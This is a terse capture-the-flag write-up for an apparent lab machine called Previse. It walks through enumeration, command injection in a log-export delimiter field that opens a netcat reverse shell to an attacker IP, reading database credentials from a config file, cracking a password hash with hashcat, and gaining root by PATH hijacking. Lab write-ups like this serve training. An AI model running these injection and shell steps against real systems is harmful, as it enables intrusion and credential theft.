 ###Box Info###

OS: Linux \
IP: 10.10.11.104 \

Skills learned:
Curl/Python CMD injection

##I. Enumeration##

nmap -p- -A -oN Exploreprts.txt ${IP}
    22 OpenSSH
    80 Apache httpd 2.4.29

Dirb ${IP}/ -X .php
    /accounts.php
        Ability to create UN && PW
    /login.php
    /status.php

###**Step 1. Create User Account::**###
    Create account with curl request
        curl -is -X POST -d "username=${UN}&password=${PW}&confirm=${PW}" ${IP}/accounts.php
    Login with new account:
        Upload access, "MySQL server is online and connected", 3(2) registered admins, sitebackup.zip, User: m4lwhere
        Management Menu -> Request Log Data: file delimeter 

###**Step 2. CMD Injection::**###
    + inspect file delimeter
        + change comma to inlcude a nc shell
            + comma && nc -e /bin/sh ${AttackerIP}:${port#}
        + setup a listener shell : nc -lnp ${port#}
    + || Burp request to repeater && add:
        + delim=comma;python -c import etc etc. (use <attack-Tun-IP) \
        + see ![cmd_injection](Screenshots/cmd_inject_previse.png) \

###**Step 3. Shell::**###
```
    python -V
    check https://github.com/crcirq32/Bash/blob/main/reverseshells.sh to upgrade shell
    cat config.php::
        function connectDB(){
        $host = 'localhost';
        $user = 'root';
        $passwd = 'mySQL_p@ssw0rd!:)';
        $db = 'previse';
    
    upgrade shell: 
        '/usr/bin/python -c 'import pty.pty.spawn("/bin/bash")'
        mysql -u root -D previse -p
        select * from accounts; :: 
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | Hacker   | $1$🧂llol$tJLubtCQPmgiZKavmuvIO/ | 2021-12-29 18:06:41 |
+----+----------+------------------------------------+---------------------+
```
+ hashcat -m 500 hashm4lwhere.txt /usr/share/wordlist/rockyou.txt::  #500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
  + m4lwhere:ilovecody112235! see ![previse_pw_crack](Screenshots/previse_pw_crack.png)

---
###**Step 4. SSH::**###
   + ssh m4lwhere@10.10.11.104   
   + https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py
     + "Target is patched"
   + sudo -l (ALWAYS RUN!!)
---
   
###**Step 5 root:: via "Path injection"**###
    + create file "gzip" in dir with perms.
    + 'chmod 777 gzip'
    + configure $PATH to current dir
    + establish listener
    + ./opt/scripts/access_backup.sh 

![Previse_root](Screenshots/root_shell_previse.png)